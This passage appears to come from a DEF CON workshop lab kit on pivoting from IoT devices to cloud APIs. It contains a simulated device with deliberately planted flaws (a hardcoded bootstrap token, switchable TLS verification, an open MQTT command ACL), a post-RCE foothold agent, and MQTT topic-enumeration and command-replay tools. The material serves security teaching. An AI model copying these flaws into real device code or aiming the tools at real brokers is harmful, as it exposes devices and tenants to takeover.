FROM python:3.12-slim
WORKDIR /app
RUN pip install --no-cache-dir paho-mqtt==1.6.1
COPY target_device.py fleet_sim.py ./
# Override CMD in compose to pick target_device.py or fleet_sim.py
CMD ["python", "target_device.py"]
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/instructor-device/fleet_sim.py`

```python
#!/usr/bin/env python3
"""
Fleet simulator -- publishes telemetry as the pre-seeded 'other tenants' devices so the MQTT
recon (lab 05) has real cross-device traffic to discover. Each device drips a flag into its own
telemetry occasionally, rewarding students who pivot to other devices' topics.
"""
import json
import os
import ssl
import threading
import time

import paho.mqtt.client as mqtt

BROKER = os.environ.get("MQTT_HOST", "broker")
PORT = int(os.environ.get("MQTT_PORT", "8883"))
CERT_DIR = os.environ.get("CERT_DIR", "/certs")

FLEET = [
    ("dev-1001", "p_aurora_88",   "devices/dev-1001-aurora",   "flag{mqtt_recon_aurora_topic}"),
    ("dev-1002", "p_borealis_19", "devices/dev-1002-borealis", "flag{mqtt_wildcard_borealis}"),
    ("dev-2007", "p_cygnus_42",   "devices/dev-2007-cygnus",   "flag{cross_tenant_mqtt_cygnus}"),
]


def run_one(user, pw, prefix, flag):
    c = mqtt.Client(client_id=user)
    c.username_pw_set(user, pw)
    c.tls_set(ca_certs=os.path.join(CERT_DIR, "ca.crt"), cert_reqs=ssl.CERT_REQUIRED)
    c.tls_insecure_set(True)
    while True:
        try:
            c.connect(BROKER, PORT, keepalive=30)
            break
        except Exception:
            time.sleep(5)
    c.loop_start()
    seq = 0
    while True:
        seq += 1
        msg = {"seq": seq, "temp_c": 19 + (seq % 7), "rssi": -60 - (seq % 9)}
        if seq % 6 == 0:
            msg["maint_note"] = flag  # the prize for reaching this device's topic
        c.publish(f"{prefix}/telemetry", json.dumps(msg))
        time.sleep(4)


if __name__ == "__main__":
    for u, p, pre, fl in FLEET:
        threading.Thread(target=run_one, args=(u, p, pre, fl), daemon=True).start()
    print("[fleet-sim] publishing as", ", ".join(u for u, *_ in FLEET))
    while True:
        time.sleep(60)
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/instructor-device/target_device.py`

```python
#!/usr/bin/env python3
"""
Instructor target device  --  the lateral-movement objective (todos: 'hack the instructor's
IoT device', replay a PLAYSOUND command, continuous flag replay).

It connects as the 'instructor' MQTT user and:
  * subscribes to devices/instructor-pod/cmd
  * on a PLAYSOUND command, publishes a flag to devices/instructor-pod/evt
  * continuously heartbeats a (different) flag onto fleet/announce so students who only
    *listen* can also score.

Students reach it because the broker ACL lets any authenticated user publish to
devices/+/cmd. The command verb 'PLAYSOUND' is benign (it just emits a chime event).
"""
import json
import os
import ssl
import time

import paho.mqtt.client as mqtt

BROKER = os.environ.get("MQTT_HOST", "broker")
PORT = int(os.environ.get("MQTT_PORT", "8883"))
CERT_DIR = os.environ.get("CERT_DIR", "/certs")
USER = os.environ.get("MQTT_USER", "instructor")
PW = os.environ.get("MQTT_PASS", "ins_demo_pw")
PREFIX = "devices/instructor-pod"

PLAYSOUND_FLAG = "flag{playsound_replay_success_4d2}"
LISTEN_FLAG = "flag{passive_listener_fleet_announce}"


def main():
    c = mqtt.Client(client_id="instructor-pod")
    c.username_pw_set(USER, PW)
    c.tls_set(ca_certs=os.path.join(CERT_DIR, "ca.crt"), cert_reqs=ssl.CERT_REQUIRED)
    c.tls_insecure_set(True)  # lab hostnames

    def on_connect(cl, u, f, rc):
        print(f"[instructor-pod] connected rc={rc}")
        cl.subscribe(f"{PREFIX}/cmd")

    def on_message(cl, u, msg):
        payload = msg.payload.decode(errors="replace").strip()
        print(f"[instructor-pod] CMD: {payload!r}")
        if payload.upper().startswith("PLAYSOUND"):
            cl.publish(f"{PREFIX}/evt",
                       json.dumps({"event": "chime", "flag": PLAYSOUND_FLAG}))
            print("[instructor-pod] PLAYSOUND received -> flag emitted")

    c.on_connect = on_connect
    c.on_message = on_message
    while True:
        try:
            c.connect(BROKER, PORT, keepalive=30)
            break
        except Exception as e:
            print(f"[instructor-pod] connect retry: {e}")
            time.sleep(5)
    c.loop_start()
    while True:
        c.publish("fleet/announce",
                  json.dumps({"node": "instructor-pod", "status": "ok", "hint": LISTEN_FLAG}))
        time.sleep(10)


if __name__ == "__main__":
    main()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/iot-device/Dockerfile`

```dockerfile
FROM python:3.12-slim
WORKDIR /app
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY device.py enclave.py debug_agent.py config.yaml entrypoint.sh ./
RUN sed -i 's/\r$//' entrypoint.sh && chmod +x entrypoint.sh
EXPOSE 7000
CMD ["./entrypoint.sh"]
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/iot-device/config.yaml`

```yaml
# Device configuration (intentionally contains a hardcoded secret -- lab 01 target)
serial: "ACME-STU-9000"
cloud_url: "https://cloud:8443"
mqtt_host: "broker"
mqtt_port: 8883
# VULN: shared factory bootstrap token shipped in the firmware
bootstrap_token: "acme-factory-bootstrap-7f3a"
firmware_version: "3.4.0"
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/iot-device/debug_agent.py`

```python
#!/usr/bin/env python3
"""
Debug agent  --  stands in for the (hand-waved) initial RCE foothold on the device.

THIS IS A LAB TEACHING DEVICE, NOT AN EXPLOIT. It exposes, on a lab-only port, the capabilities
a student would have *after* popping a shell on the device, so the workshop can teach the cloud
attack without shipping a real device-RCE chain:

  GET  /fs?path=...     read the device 'filesystem' (config, CA bundle, stub key)  -> NOT the enclave
  POST /ca              install attacker CA / disable cert verification (verify_tls=false)
  GET  /nvs             dump the simulated Zephyr NVS/settings partition blob
  POST /enclave_run     drive the enclave to make an mTLS call and TEE the plaintext back
                         (models 'run our code on the device that uses the enclave')

Bound to 127.0.0.1 by default. In compose it is reachable only from the attacker container on
the lab network. Capabilities are gated to the device's own sandbox.
"""
import json
import os
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse, parse_qs

from enclave import SimEnclave

CONTROL = os.environ.get("CONTROL_FILE", "/lab/control.json")
CERT_DIR = os.environ.get("CERT_DIR", "/certs")
CLOUD_HOST = os.environ.get("CLOUD_HOST", "cloud")
MTLS_PORT = int(os.environ.get("MTLS_PORT", "9443"))
NVS_BLOB = os.environ.get("NVS_BLOB", "/lab/nvs_partition.bin")
BIND = os.environ.get("AGENT_BIND", "0.0.0.0")   # lab network only
PORT = int(os.environ.get("AGENT_PORT", "7000"))

# FS browse is restricted to the device's normal storage -- the enclave dir is NOT here.
ALLOWED_ROOTS = ["/app", "/certs", "/lab"]


def _set_control(**kw):
    try:
        cur = json.load(open(CONTROL))
    except Exception:
        cur = {}
    cur.update(kw)
    json.dump(cur, open(CONTROL, "w"))
    return cur


class Handler(BaseHTTPRequestHandler):
    def log_message(self, *a):  # quieter logs
        pass

    def _send(self, code, body, ctype="application/json"):
        if isinstance(body, (dict, list)):
            body = json.dumps(body).encode()
        elif isinstance(body, str):
            body = body.encode()
        self.send_response(code)
        self.send_header("Content-Type", ctype)
        self.end_headers()
        self.wfile.write(body)

    def do_GET(self):
        u = urlparse(self.path)
        if u.path == "/fs":
            path = parse_qs(u.query).get("path", ["/app/config.yaml"])[0]
            real = os.path.realpath(path)
            if not any(real.startswith(r) for r in ALLOWED_ROOTS):
                return self._send(403, {"error": "outside device sandbox (enclave is isolated)"})
            if os.path.isdir(real):
                return self._send(200, {"dir": real, "entries": sorted(os.listdir(real))})
            try:
                return self._send(200, open(real, "rb").read(), "application/octet-stream")
            except OSError as e:
                return self._send(404, {"error": str(e)})
        if u.path == "/nvs":
            try:
                return self._send(200, open(NVS_BLOB, "rb").read(), "application/octet-stream")
            except OSError as e:
                return self._send(404, {"error": f"no nvs blob: {e}"})
        return self._send(404, {"error": "unknown"})

    def do_POST(self):
        u = urlparse(self.path)
        if u.path == "/ca":
            _set_control(verify_tls=False)
            return self._send(200, {"ok": True, "verify_tls": False,
                                    "note": "device now trusts any server cert -> MITM works"})
        if u.path == "/enclave_run":
            # Models running attacker code on the device that *uses* the enclave to make a
            # request, returning the decrypted plaintext (the session 'extraction').
            _set_control(use_mtls=True)
            did = os.environ.get("DEVICE_ID", "")
            if not did:
                try:
                    did = open("/lab/device_id").read().strip()
                except OSError:
                    pass
            path = "/v1/devices/" + (did or "unknown") + "/telemetry"
            try:
                ctrl = json.load(open(CONTROL)) if os.path.exists(CONTROL) else {}
                verify_server = ctrl.get("verify_tls", True)
                body = SimEnclave.https_get(CLOUD_HOST, MTLS_PORT, path,
                                            ca_path=os.path.join(CERT_DIR, "ca.crt"),
                                            verify_server=verify_server)
                return self._send(200, {"ok": True, "plaintext": body.decode(errors="replace")})
            except Exception as e:
                return self._send(500, {"error": str(e)})
        return self._send(404, {"error": "unknown"})


if __name__ == "__main__":
    print(f"[debug-agent] LAB-ONLY foothold sim on {BIND}:{PORT}")
    HTTPServer((BIND, PORT), Handler).serve_forever()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/iot-device/device.py`

```python
#!/usr/bin/env python3
"""
Simulated IoT device  --  the thing students intercept and pivot from.

Behaviour is driven by a control file (/lab/control.json) so the "post-RCE" debug agent can
flip the device into its vulnerable states during the lab without a restart:

  verify_tls        true  -> device validates the cloud cert against its baked-in CA bundle.
                            With Burp in the middle this FAILS -> Burp sees nothing. (lab 02 start)
  verify_tls        false -> device trusts any cert (the "rogue CA pushed / verify=False" bug)
                            -> Burp now sees the provisioning + creds traffic. (lab 02 part 2)
  use_mtls          true  -> device calls the 9443 data plane with its client cert via the
                            simulated enclave -> Burp is blocked (lab 02 part 3 / lab 03)

The device first provisions over the 8443 server-TLS API, caches its identity, connects to the
MQTT broker, publishes telemetry, and subscribes to its command topic.
"""
import json
import os
import ssl
import time
import threading

import requests
import paho.mqtt.client as mqtt

from enclave import SimEnclave

CLOUD_HOST = os.environ.get("CLOUD_HOST", "cloud")
CLOUD_PORT = int(os.environ.get("CLOUD_PORT", "8443"))
MTLS_PORT = int(os.environ.get("MTLS_PORT", "9443"))
CERT_DIR = os.environ.get("CERT_DIR", "/certs")
CONTROL = os.environ.get("CONTROL_FILE", "/lab/control.json")
CONF = os.environ.get("DEVICE_CONF", "/app/config.yaml")

_state = {"identity": None}


def control():
    try:
        return json.load(open(CONTROL))
    except Exception:
        return {"verify_tls": True, "use_mtls": False}


def load_conf():
    # Minimal YAML-ish loader to avoid a dependency; the file is simple key: value.
    conf = {}
    for line in open(CONF):
        line = line.split("#", 1)[0].strip()
        if ":" in line:
            k, v = line.split(":", 1)
            conf[k.strip()] = v.strip().strip('"')
    return conf


def _verify_arg():
    # requests `verify=` : path to CA bundle (validate) or False (trust anything)
    if control().get("verify_tls", True):
        return os.path.join(CERT_DIR, "ca.crt")
    return False


def provision(conf):
    url = f"https://{CLOUD_HOST}:{CLOUD_PORT}/v1/provision"
    body = {"bootstrap_token": conf.get("bootstrap_token"), "serial": conf.get("serial")}
    r = requests.post(url, json=body, verify=_verify_arg(), timeout=10)
    r.raise_for_status()
    ident = r.json()
    _state["identity"] = ident
    print(f"[device] provisioned as {ident['device_id']} (tenant {ident['tenant']})")
    with open("/lab/device_id", "w") as f:
        f.write(ident["device_id"])
    # Persist the enclave's view of the client key (enclave "holds" it; FS only sees a stub)
    SimEnclave.install(ident["mtls"]["client_cert_pem"], ident["mtls"]["client_key_pem"])
    return ident


def fetch_telemetry_mtls(ident):
    """Call the mTLS data plane via the enclave (lab 03). Returns plaintext body."""
    did = ident["device_id"]
    path = f"/v1/devices/{did}/telemetry"
    return SimEnclave.https_get(CLOUD_HOST, MTLS_PORT, path,
                                ca_path=os.path.join(CERT_DIR, "ca.crt"))


def mqtt_loop(ident):
    m = ident["mqtt"]
    c = mqtt.Client(client_id=ident["device_id"])
    c.username_pw_set(m["username"], m["password"])
    c.tls_set(ca_certs=os.path.join(CERT_DIR, "ca.crt"), cert_reqs=ssl.CERT_REQUIRED)
    c.tls_insecure_set(not control().get("verify_tls", True))

    prefix = m["topic_prefix"]

    def on_connect(cl, u, f, rc):
        print(f"[device] mqtt connected rc={rc}; subscribing {prefix}/cmd")
        cl.subscribe(f"{prefix}/cmd")

    def on_message(cl, u, msg):
        print(f"[device] CMD on {msg.topic}: {msg.payload!r}")
        if msg.payload.strip().upper().startswith(b"PLAYSOUND"):
            cl.publish(f"{prefix}/evt", b"playing chime.wav")

    c.on_connect = on_connect
    c.on_message = on_message
    c.connect(m["host"], m["port"], keepalive=30)
    c.loop_start()
    seq = 0
    while True:
        seq += 1
        c.publish(f"{prefix}/telemetry",
                  json.dumps({"seq": seq, "temp_c": 21 + (seq % 5), "rssi": -57}))
        time.sleep(5)


def main():
    conf = load_conf()
    print(f"[device] mode-driven sim; serial={conf.get('serial')} control={CONTROL}")
    # Retry provisioning until the cloud is up / verify mode lets it through
    while _state["identity"] is None:
        try:
            provision(conf)
        except requests.exceptions.SSLError as e:
            print(f"[device] TLS verify failed (expected while verify_tls=true behind a MITM): {e}")
            time.sleep(5)
        except Exception as e:
            print(f"[device] provisioning retry: {e}")
            time.sleep(5)

    ident = _state["identity"]
    # If configured to use the mTLS data plane, do a periodic call in the background
    def mtls_poll():
        while True:
            if control().get("use_mtls"):
                try:
                    body = fetch_telemetry_mtls(ident)
                    print(f"[device] mTLS data-plane ok ({len(body)} bytes)")
                except Exception as e:
                    print(f"[device] mTLS call error: {e}")
            time.sleep(8)
    threading.Thread(target=mtls_poll, daemon=True).start()

    mqtt_loop(ident)


if __name__ == "__main__":
    main()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/iot-device/enclave.py`

```python
#!/usr/bin/env python3
"""
Simulated secure enclave.

Models the real-world case from the todos: the private key 'lives in a secure enclave', so a
normal filesystem read of the device does NOT yield the key. The enclave performs the TLS
handshake and crypto; the device's networking stack carries the TCP/TLS session.

For the lab this is a Python module that stores the key in a directory the device's normal
'debug agent FS browse' does NOT expose (see debug_agent.ALLOWED_ROOTS). The key-extraction
exercise (lab 03) therefore can't just `cat` the key -- the student must instead use their RCE
to drive the enclave (extract_enclave_session.py) and tee the plaintext, exactly like the
'run our code on the device that uses the enclave' option in the todos.
"""
import http.client
import os
import ssl

ENCLAVE_DIR = os.environ.get("ENCLAVE_DIR", "/enclave")  # deliberately outside FS-browse scope
_CRT = os.path.join(ENCLAVE_DIR, "client.crt")
_KEY = os.path.join(ENCLAVE_DIR, "client.key")


class SimEnclave:
    @staticmethod
    def install(cert_pem, key_pem):
        os.makedirs(ENCLAVE_DIR, exist_ok=True)
        with open(_CRT, "w") as f:
            f.write(cert_pem)
        with open(_KEY, "w") as f:
            f.write(key_pem)
        os.chmod(_KEY, 0o600)

    @staticmethod
    def _ctx(ca_path, verify_server=True):
        ctx = ssl.create_default_context(ssl.Purpose.SERVER_AUTH, cafile=ca_path)
        ctx.check_hostname = False  # lab hostnames
        if not verify_server:
            ctx.verify_mode = ssl.CERT_NONE
        ctx.load_cert_chain(_CRT, _KEY)
        return ctx

    @staticmethod
    def https_get(host, port, path, ca_path, verify_server=True):
        """Perform an mTLS GET using the enclave-held key; return the response body (plaintext)."""
        ctx = SimEnclave._ctx(ca_path, verify_server=verify_server)
        conn = http.client.HTTPSConnection(host, port, context=ctx, timeout=10)
        conn.request("GET", path)
        resp = conn.getresponse()
        data = resp.read()
        conn.close()
        return data
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/iot-device/entrypoint.sh`

```bash
#!/usr/bin/env sh
set -e
mkdir -p /lab
# Default starting state: device validates the cloud cert (Burp blind) and is not yet on mTLS.
if [ ! -f /lab/control.json ]; then
  echo '{"verify_tls": true, "use_mtls": false}' > /lab/control.json
fi
# Seed the simulated Zephyr NVS blob so the debug agent's /nvs endpoint can serve it.
if [ ! -f /lab/nvs_partition.bin ] && [ -f /zephyr/make_nvs_blob.py ]; then
  python /zephyr/make_nvs_blob.py /lab/nvs_partition.bin || true
fi
python device.py &
exec python debug_agent.py
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/iot-device/requirements.txt`

```text
requests==2.32.3
paho-mqtt==1.6.1
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/scripts/bootstrap_lab_vm.sh`

```bash
#!/usr/bin/env bash
# bootstrap_lab_vm.sh -- install Docker + lab tooling inside the Ubuntu Desktop guest VM.
# Idempotent; safe to re-run. Run with sudo. Works on amd64 and arm64 guests (apt resolves arch).
set -euo pipefail

export DEBIAN_FRONTEND=noninteractive
apt-get update -y

# Base recon / mqtt / crypto tooling used in the labs, plus VMware guest integration.
apt-get install -y \
  ca-certificates curl gnupg lsb-release \
  binwalk binutils openssl squashfs-tools \
  mosquitto-clients \
  open-vm-tools open-vm-tools-desktop \
  python3 python3-pip git \
  ripgrep xsel

pip3 install --break-system-packages requests paho-mqtt urllib3 2>/dev/null || \
  pip3 install requests paho-mqtt urllib3

# Docker Engine + compose plugin (official repo)
if ! command -v docker >/dev/null 2>&1; then
  install -m 0755 -d /etc/apt/keyrings
  curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /etc/apt/keyrings/docker.gpg
  chmod a+r /etc/apt/keyrings/docker.gpg
  echo "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] \
https://download.docker.com/linux/ubuntu $(. /etc/os-release && echo "$VERSION_CODENAME") stable" \
    > /etc/apt/sources.list.d/docker.list
  apt-get update -y
  apt-get install -y docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
fi

# Let the desktop login user drive docker without sudo
for u in "${SUDO_USER:-}" ubuntu vagrant; do
  [ -n "$u" ] && id "$u" >/dev/null 2>&1 && usermod -aG docker "$u" || true
done

# /etc/hosts aliases so tools run directly in the guest use the same hostnames
# (cloud/broker/device) as the containerised attacker. The TLS cert is issued to
# 'cloud', so 127.0.0.1/localhost would fail cert validation without this.
for host in cloud broker device; do
  if ! grep -qE "^127\.0\.0\.1[[:space:]]+.*\b${host}\b" /etc/hosts; then
    echo "127.0.0.1  ${host}" >> /etc/hosts
  fi
done

# GNOME system-wide defaults via dconf — no screen lock, no idle/display timeout.
# Applied at the dconf system-db layer so they take effect on first login for any user.
apt-get install -y dconf-cli

mkdir -p /etc/dconf/profile /etc/dconf/db/local.d

cat > /etc/dconf/profile/user <<'DCONF_PROFILE'
user-db:user
system-db:local
DCONF_PROFILE

install -m 644 /opt/edge-to-cloud-pwn/build-scripts/desktop_background.png \
  /usr/share/backgrounds/lab-background.png

cat > /etc/dconf/db/local.d/01-lab-defaults <<'DCONF_SETTINGS'
[org/gnome/desktop/screensaver]
lock-enabled=false
lock-delay=uint32 0

[org/gnome/desktop/session]
idle-delay=uint32 0

[org/gnome/settings-daemon/plugins/power]
idle-dim=false
sleep-inactive-ac-type='nothing'
sleep-inactive-battery-type='nothing'
sleep-inactive-ac-timeout=0
sleep-inactive-battery-timeout=0

[org/gnome/desktop/background]
picture-uri='file:///usr/share/backgrounds/lab-background.png'
picture-uri-dark='file:///usr/share/backgrounds/lab-background.png'
picture-options='zoom'
DCONF_SETTINGS

dconf update

# Power profile: performance. power-profiles-daemon (pulled in by ubuntu-desktop) persists
# the chosen profile across reboots. Start it here so powerprofilesctl can reach it.
systemctl start power-profiles-daemon 2>/dev/null || true
powerprofilesctl set performance 2>/dev/null || true

# Suppress the first-login "Welcome to Ubuntu" experience so students land straight on the
# desktop. Two separate things trigger it:
#   1. gnome-tour  -- the "Welcome to Ubuntu / Take the Tour" splash. Just remove it.
#   2. gnome-initial-setup -- the account/privacy wizard. Skipped when the per-user
#      done-file exists, so seed it for the lab user and /etc/skel (future users).
apt-get purge -y -qq gnome-tour 2>/dev/null || true
for home in /etc/skel /home/lab; do
  install -d "$home/.config"
  echo "yes" > "$home/.config/gnome-initial-setup-done"
done
chown -R lab:lab /home/lab/.config 2>/dev/null || true

# Burp Suite Community Edition — baked into the OVA so students have it on first boot.
# Queries the PortSwigger releases API for the latest Desktop (Community) version, then
# downloads the architecture-matched installer and runs it unattended.
if [ ! -d /opt/BurpSuiteCommunity ]; then
  ARCH=$(dpkg --print-architecture)
  if [ "$ARCH" = "arm64" ]; then
    BURP_TYPE="LinuxArm64"
  else
    BURP_TYPE="Linux"
  fi
  BURP_VERSION=$(curl -fsSL \
    "https://portswigger.net/burp/releases/data?pageSize=1&releaseChannel=Stable&product=community" \
    | python3 -c "
import json,sys
d=json.load(sys.stdin)
for r in d['ResultSet']['Results']:
  if r.get('buildCategory') == 'desktop':
    print(r['builds'][0]['Version']); break
")
  BURP_INSTALLER=$(mktemp /tmp/burp-installer-XXXXXX.sh)
  curl -fsSL \
    "https://portswigger.net/burp/releases/download?product=desktop&version=${BURP_VERSION}&type=${BURP_TYPE}" \
    -o "$BURP_INSTALLER"
  chmod +x "$BURP_INSTALLER"
  "$BURP_INSTALLER" -q -overwrite -dir /opt/BurpSuiteCommunity
  rm -f "$BURP_INSTALLER"
fi

# authbind — lets the 'lab' user bind Burp to port 443 without sudo.
# Lab 02 requires a Burp transparent-proxy listener on 0.0.0.0:443.
apt-get install -y -qq authbind
touch /etc/authbind/byport/443
chmod 500 /etc/authbind/byport/443
chown lab /etc/authbind/byport/443

# Pre-build all Docker images so the first 'docker compose up --build' works fully offline.
# DEF CON WiFi is unreliable; having the layers cached in the OVA eliminates the dependency.
systemctl start docker
COMPOSE_DIR=/opt/edge-to-cloud-pwn/build-scripts
docker pull eclipse-mosquitto:2
docker compose -f "$COMPOSE_DIR/docker-compose.yml" build
docker compose -f "$COMPOSE_DIR/docker-compose.yml" --profile attacker build

echo "[bootstrap] done. Tools: docker, binwalk, mosquitto_pub/sub, openssl, mksquashfs, python3, burp."
echo "[bootstrap] NEXT: cd /opt/edge-to-cloud-pwn/build-scripts && docker compose up -d"
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/scripts/check_env.sh`

```bash
#!/usr/bin/env bash
# check_env.sh -- verify a student VM has what the lab needs.
echo "== DEF CON 34 IoT->Cloud lab environment check =="
ok=0; bad=0
chk() { if command -v "$1" >/dev/null 2>&1; then echo "  [ok]  $1"; ok=$((ok+1)); else echo "  [!!]  $1  -- $2"; bad=$((bad+1)); fi; }

echo "-- container runtime --"
chk docker "install Docker Engine + the compose plugin"
docker compose version >/dev/null 2>&1 && echo "  [ok]  docker compose" || { echo "  [!!]  docker compose plugin missing"; bad=$((bad+1)); }

echo "-- recon / crypto --"
chk binwalk "apt install binwalk"
chk strings "apt install binutils"
chk openssl "apt install openssl"
chk mksquashfs "apt install squashfs-tools (to rebuild firmware)"

echo "-- mqtt / http tooling --"
chk mosquitto_sub "apt install mosquitto-clients"
chk mosquitto_pub "apt install mosquitto-clients"
chk curl "apt install curl"
chk python3 "apt install python3 python3-pip"

echo "-- python libs --"
python3 - <<'PY' 2>/dev/null && echo "  [ok]  python libs (requests, paho-mqtt)" || { echo "  [!!]  pip install requests paho-mqtt urllib3"; bad=$((bad+1)); }
import requests, paho.mqtt.client  # noqa
PY

echo "-- burp --"
echo "  [i]   Install Burp Suite COMMUNITY Edition in this guest (portswigger.net):"
echo "        Linux (x64) on an amd64 guest, Linux (ARM) on an arm64 guest. Free, no license."

echo
echo "Summary: $ok ok, $bad missing."
[ "$bad" -eq 0 ] && echo "You're ready. -> docker compose up --build" || echo "Install the [!!] items above, then re-run."
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/scripts/gen_certs.sh`

```bash
#!/usr/bin/env bash
# gen_certs.sh -- generate the lab CA and the cloud server certificate.
# Per-device client certs are minted on demand by the cloud (cloud/data.py).
set -euo pipefail
HERE="$(cd "$(dirname "$0")" && pwd)"
CERTS="${1:-$HERE/../certs}"
mkdir -p "$CERTS"
cd "$CERTS"

if [ -f ca.crt ] && [ -f ca.key ]; then
  echo "[=] CA already exists in $CERTS (delete to regenerate)"
else
  echo "[+] generating lab CA"
  openssl req -x509 -newkey rsa:2048 -nodes -keyout ca.key -out ca.crt -days 60 \
    -subj "/O=DEFCON34-Lab/CN=ACME IoT Lab Root CA"
fi

echo "[+] generating cloud server cert (SAN: cloud, broker, localhost)"
cat > san.cnf <<'EOF'
[req]
distinguished_name = dn
req_extensions = v3
prompt = no
[dn]
CN = cloud
[v3]
subjectAltName = DNS:cloud, DNS:broker, DNS:localhost, IP:127.0.0.1
EOF
openssl req -newkey rsa:2048 -nodes -keyout cloud.key -out cloud.csr -config san.cnf
openssl x509 -req -in cloud.csr -CA ca.crt -CAkey ca.key -CAcreateserial \
  -days 60 -extfile san.cnf -extensions v3 -out cloud.crt
rm -f cloud.csr san.cnf
chmod 644 *.crt; chmod 644 *.key 2>/dev/null || true
echo "[+] certs in $(pwd):"; ls -1
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/tools/foothold.py`

```python
#!/usr/bin/env python3
"""
foothold.py  --  drive the device's (post-RCE) debug agent (labs 02-03).

This talks to the lab debug agent that stands in for your shell on the device. It does NOT
exploit anything -- it exercises the foothold the workshop assumes you already have.

  python foothold.py --agent http://device:7000 ls /app
  python foothold.py --agent http://device:7000 cat /app/config.yaml
  python foothold.py --agent http://device:7000 push-ca          # verify_tls=false (Burp works)
  python foothold.py --agent http://device:7000 dump-nvs nvs.bin # pull Zephyr NVS blob
  python foothold.py --agent http://device:7000 enclave-run      # tee mTLS plaintext
"""
import argparse
import sys

import requests


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--agent", default="http://device:7000")
    ap.add_argument("action", choices=["ls", "cat", "push-ca", "dump-nvs", "enclave-run"])
    ap.add_argument("arg", nargs="?")
    a = ap.parse_args()

    if a.action == "ls":
        r = requests.get(f"{a.agent}/fs", params={"path": a.arg or "/app"})
        print(r.json())
    elif a.action == "cat":
        r = requests.get(f"{a.agent}/fs", params={"path": a.arg})
        sys.stdout.buffer.write(r.content)
    elif a.action == "push-ca":
        r = requests.post(f"{a.agent}/ca")
        print(r.json())
    elif a.action == "dump-nvs":
        r = requests.get(f"{a.agent}/nvs")
        out = a.arg or "nvs_partition.bin"
        open(out, "wb").write(r.content)
        print(f"[+] wrote {len(r.content)} bytes to {out}")
    elif a.action == "enclave-run":
        r = requests.post(f"{a.agent}/enclave_run")
        print(r.json())


if __name__ == "__main__":
    main()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/tools/mqtt_fuzz.py`

```python
#!/usr/bin/env python3
"""
mqtt_fuzz.py  --  topic-name fuzzing and command replay (labs 05-06).

Modes:
  enum   : try a wordlist of device-id / topic-segment guesses, report which produce traffic
  replay : publish a payload to a target command topic (e.g. replay PLAYSOUND to the
           instructor pod for the lateral-movement flag)

Examples:
  python mqtt_fuzz.py enum  --host broker --user dev-1001 --pass p_aurora_88 \
        --base devices --suffix /telemetry --words ids.txt
  python mqtt_fuzz.py replay --host broker --user dev-1001 --pass p_aurora_88 \
        --topic devices/instructor-pod/cmd --payload PLAYSOUND
"""
import argparse
import ssl
import time

import paho.mqtt.client as mqtt

DEFAULT_WORDS = [
    "dev-1001-aurora", "dev-1002-borealis", "dev-2007-cygnus", "instructor-pod",
    "dev-0000", "gateway", "test", "admin",
]


def _client(a, cid):
    c = mqtt.Client(client_id=cid)
    c.username_pw_set(a.user, a.pw)
    if a.ca:
        c.tls_set(ca_certs=a.ca, cert_reqs=ssl.CERT_REQUIRED)
    else:
        c.tls_set(cert_reqs=ssl.CERT_NONE)
        c.tls_insecure_set(True)
    return c


def cmd_enum(a):
    words = [w.strip() for w in open(a.words)] if a.words else DEFAULT_WORDS
    hits = {}
    c = _client(a, "fuzz-enum")

    def on_message(cl, u, msg):
        hits[msg.topic] = hits.get(msg.topic, 0) + 1

    c.on_message = on_message
    c.connect(a.host, a.port, 30)
    c.loop_start()
    for w in words:
        topic = f"{a.base}/{w}{a.suffix}"
        c.subscribe(topic)
        print(f"[sub] {topic}")
    time.sleep(a.wait)
    c.loop_stop()
    print("\n[results] topics with traffic:")
    for t, n in sorted(hits.items(), key=lambda kv: -kv[1]):
        print(f"  {n:4d}  {t}")


def cmd_replay(a):
    c = _client(a, "fuzz-replay")
    c.connect(a.host, a.port, 30)
    c.loop_start()
    for _ in range(a.count):
        c.publish(a.topic, a.payload)
        print(f"[pub] {a.topic} <- {a.payload}")
        time.sleep(a.interval)
    time.sleep(1)
    c.loop_stop()


def main():
    ap = argparse.ArgumentParser()
    sub = ap.add_subparsers(dest="mode", required=True)

